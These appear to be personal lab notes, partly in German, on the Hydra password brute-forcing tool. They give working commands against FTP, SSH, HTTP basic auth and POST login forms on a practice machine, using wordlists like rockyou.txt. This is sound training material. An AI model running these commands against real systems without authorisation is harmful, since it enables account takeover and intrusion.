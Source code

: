 # Hydra Commands		

The options we pass into Hydra depend on which service (protocol) we’re attacking. For example, if we wanted to brute force FTP with the username being user and a password list being passlist.txt, we’d use the following command:		
```
hydra -l user -P passlist.txt ftp://10.10.202.56		
```

For this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).		


# SSH		
```
hydra -l <username> -P <full path to pass> 10.10.202.56 -t 4 ssh		
```
Option	Description	
-l	specifies the (SSH) username for login	
-P	indicates a list of passwords	
-t	sets the number of threads to spawn	

For example, 
```
hydra -l root -P passwords.txt 10.10.202.56 -t 4 ssh 
```
will run with the following arguments:		
		
Hydra will use root as the username for ssh		
It will try the passwords in the passwords.txt file		
There will be four threads running in parallel as indicated by -t 4		

# HTTP Auth

Kann man bei einer HTTP anmelde Maske nehmen siehe 

https://imgur.com/MDkOwjy

```
hydra -l bob -P /usr/share/wordlists/rockyou.txt -t 1 -f 10.10.96.224 http-get /protected
```

-l für den Nutzername (in dem Beispiel ist er als Bob gegeben)
-P Soll hier gebruteforced werden deshalb link auf wordlist
-t 1 Hier soll ein Threat genutzt werden (kann man auf bis zu 64 Scalen)
-f Bricht das Forcen ab sobald ein login gefunden wurde
10.10.96.224  Ziel IP Adresse
http-get ist hier die Methodik 
/protected Der Pfad, der durch HTTP Basic Auth geschützt ist

# Post Web Form		
We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.		

```
sudo hydra <username> <wordlist> 10.10.202.56 http-post-form "<path>:<login_credentials>:<invalid_response>"		
```

Option	Description	
-l	the username for (web form) login	
-P	the password list to use	
http-post-form	the type of the form is POST	
<path>	the login page URL, for example, login.php	
<login_credentials>	the username and password used to log in, for example, username=^USER^&password=^PASS^	
<invalid_response>	part of the response when the login fails	
-V	verbose output for every attempt	

Below is a more concrete example Hydra command to brute force a POST login form:		

```
hydra -l <username> -P <wordlist> 10.10.202.56 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V		
```



The login page is only /, i.e., the main IP address.		
The username is the form field where the username is entered		
The specified username(s) will replace ^USER^		
The password is the form field where the password is entered		
The provided passwords will be replacing ^PASS^		
Finally, F=incorrect is a string that appears in the server reply when the login fails		
You should now have enough information to put this to practice and brute force your credentials to the deployed machine!		




